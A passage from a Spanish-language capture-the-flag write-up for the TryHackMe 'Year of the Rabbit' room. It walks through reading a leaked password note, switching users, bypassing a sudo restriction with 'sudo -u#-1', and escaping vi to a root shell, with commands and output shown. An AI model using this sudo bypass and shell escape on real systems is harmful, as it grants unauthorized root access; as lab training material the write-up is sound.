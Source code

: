 * Leemos el archivo y nos da una credencial 

```java
eli@year-of-the-rabbit:/usr/games/s3cr3t$ cat .th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly\! 
Your password is awful, Gwendoline. 
It should be at least 60 characters long! Not just ###########
Honestly!

Yours sincerely
   -Root
eli@year-of-the-rabbit:/usr/games/s3cr3t$ 
```

* Verificamos usuario en el sistema.

```java
eli@year-of-the-rabbit:/usr/games/s3cr3t$ cat /etc/passwd | grep 'sh$'

root:x:0:0:root:/root:/bin/bash
speech-dispatcher:x:114:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/sh
eli:x:1000:1000:eli,,,:/home/eli:/bin/bash
gwendoline:x:1001:1001:,,,:/home/gwendoline:/bin/bash
```

* Nos convertimos en gwendoline con la credencial encontrada, y vemos que podemos correr el comando vi como root.

```java
eli@year-of-the-rabbit:/usr/games/s3cr3t$ su gwendoline
Password: 

gwendoline@year-of-the-rabbit:/usr/games/s3cr3t$ sudo -l

Matching Defaults entries for gwendoline on year-of-the-rabbit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User gwendoline may run the following commands on year-of-the-rabbit:
    (ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt
``` 

* Corremos el comando como sudo, pero con el UID -1 para indicar que hacer referencia a 0, ya que si colocamos de una vez el 0 no nos dejara. 

```java
gwendoline@year-of-the-rabbit:/usr/games/s3cr3t$ sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
```

* Colocamos en nuestro teclado los dos puntos y escribimos :!/bin/bash para obtener una shell como root.

```java
:!/bin/bash
```

* De esta forma obtenemos una shell como root y podemos observar la flag de root.txt y de user.txt.

```java
root@year-of-the-rabbit:/root# whoami
root

root@year-of-the-rabbit:/root# cat /root/root.txt 
THM{########}

root@year-of-the-rabbit:/root# cat /home/gwendoline/user.txt 
THM{########}
```